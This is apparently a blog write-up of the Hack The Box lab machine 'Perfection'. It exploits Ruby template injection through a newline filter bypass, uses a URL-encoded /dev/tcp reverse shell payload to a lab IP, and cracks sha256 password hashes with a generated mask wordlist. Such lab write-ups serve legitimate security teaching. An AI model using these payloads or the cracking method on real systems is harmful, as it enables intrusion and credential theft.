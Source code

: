 ```yaml
---
title: "Perfection Walkthrough(HTB)"
date: 2025-03-14
draft: false 
description: "Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the `sudo` group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain `root` access."
tags: ["Easy", "Linux", "HTB", "hacking","walkthrough", "web"]
---
```


## Reconnaissance && Enumeration  
- Nmap scan results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 15.030 days (since Tue Dec 31 22:06:01 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- I was hanging around the website to find anything interesting, I am not gonna lie the website is both basic and neat
![gif](https://media1.tenor.com/m/RKfVkcF5d38AAAAC/well-made-sungwon-cho.gif)
- After a while I foud this Weighted grade calculator interesting
![Pasted image 20250116004126.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116004126.png?raw=true)
- In the footer of the page it shows/exposes that the website powered by `WEBrick 1.7.0`. So I noted it down.
- After some bunch of research I learnt that WEBrick uses Ruby to run. If I can recall I think there is even a module in ruby named Webrick. I'll leave the details below
{{< details summary="View the attached Links" >}} [Link-1 ](https://docs.ruby-lang.org/en/2.4.0/WEBrick.html) <br> [Link-2](https://github.com/ruby/webrick) <br> [Link-3](https://en.wikipedia.org/wiki/WEBrick) {{< /details >}}

- Like in python SSTI are possible for Ruby and as this a calculator it gives us more clue to work on that. So I jumped the gun
![gun](https://media1.tenor.com/m/UrhCgLoVcAcAAAAC/just-jump-the-gun-harry-jowsey.gif)
- This article showcases the SSTI on a WEBrick made site, talk about being lucky, lol --> [Link here](https://trustedsec.com/blog/rubyerb-template-injection)
![lucky](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjY3NjB3ZHAycjl5Nmg5cDk5NjVvMWR1bnJxNTZza3dvZWNoeHlkMiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/THfsqxdJ6K0MrTutIb/giphy.gif)
- This [Medium article](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68) helped me a lot with payloads for the ruby SSTI and while I was testing It, I couldn't get any valid results
![Pasted image 20250116005312.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005312.png?raw=true)
- Below contains the example payloads for Ruby. These are some of the payloads that I used for SSTI
```ruby
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>
```
## Exploitation
- Some payload worked after little tweaks, But blocked by the web page as `Malicious Input` anyway. Hey atleast we got something
![Pasted image 20250116005529.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005529.png?raw=true)
- No matter how I URL encode, it didn't even worked. Probably the site blocks the symbols in the payload hmm...
![thinking](https://media.giphy.com/media/kPtv3UIPrv36cjxqLs/giphy.gif?cid=790b7611ou1885fjp6ktw531ypmpolj0xnsuejgxhz89xpis&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I learnt that URL encoded value of new-line`(%0a`) helps in bypassing SSTI validation So I used that before the payload as prefix and like a magic it worked
- The `whoami` doesn't return any output
![Pasted image 20250116010747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010747.png?raw=true)
- I tried hitting my machine for a check, and I got the request 
![Pasted image 20250116010907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010907.png?raw=true)
- Request: 
![Pasted image 20250116010943.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010943.png?raw=true)
- As everything works fine its time for us to brew the cursed reverse shell payload
![brewing](https://media1.tenor.com/m/6uyO5POa2TMAAAAC/creepy-creep.gif) 
```bash
%0a<%25%3d+system("bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.14.10/7001+<%261'")+%25>
```
- It worked and we are as user `susan` now
- Secured {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250116011350.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116011350.png?raw=true)

## Privilege Escalation
- While enumerating I found two other folders wihin user `susan's` home directory 
![Pasted image 20250116015043.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015043.png?raw=true)
- `Migration` folder had sqlite database file so for a change I opened the file in the target system itself
- The database had only one table called `users` . Inside that table, password hashes for five users were included
![Pasted image 20250116015454.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015454.png?raw=true)
- The hashes were made from using `sha256` algorithm
![Pasted image 20250116015710.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015710.png?raw=true)
- I tried cracking the hashes using my tool [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously sha256_cracker), But it failed
![Pasted image 20250116020022.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020022.png?raw=true)
- Then, I started enumerating system further for privesc vectors and rather I found this `/var/mail`
- Inside `/var/mail/susan` the message reads 
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```
- As per the instructions I created a python script to make password list for user `susan`
```python
output_file = "susan_nasus_password.txt"

with open(output_file, "w") as file:
    for number in range(1, 1_000_000_001):
        file.write(f"susan_nasus_{number}\n")

print(f"File '{output_file}' has been successfully created.")
```
- This would be both easy and fast when using bash 
```bash
for ((i=1; i<=1000000000; i++)); do echo "susan_nasus_$i" >> "$output_file"
```
- With the new wordlists I fired up my tool again and got the password
![Pasted image 20250116020736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020736.png?raw=true)
- You can get my tool from here [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously known as sha256_cracker). More features will be added by the time of your visit
![mine](https://media1.tenor.com/m/CyLsZhMXHioAAAAC/mine-is-the-best-mariah-milano.gif)
- Using the password I logged in via SSH as user `susan`
- I really wasn't expecting this twist I was hoping for more steps, anyway I am glad. See this yourself lol
- User `susan` can run sudo without any password
![are-we-a-joke](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTRmZG9ienp5dW1qYW1xZTExYTdlejgyaW9wNjU3bXVmem9hZTU2cCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/9ppWJumH0DiZ6co7ee/giphy.gif)
![Pasted image 20250116021417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021417.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250116021446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021446.png?raw=true)

{{< typeit >}} Anyway guys, this concludes it this was a fun box but not particularly easy as rated. I hope you liked this post and don't forget to share this post, Fun fact we have share links for almost every platform.. look below. Emp5r0R  signing off... {{< /typeit >}}

![bye](https://media1.tenor.com/m/S1xOjTOnwLgAAAAd/masters-of-the-universe-skeletor-mot-u.gif)
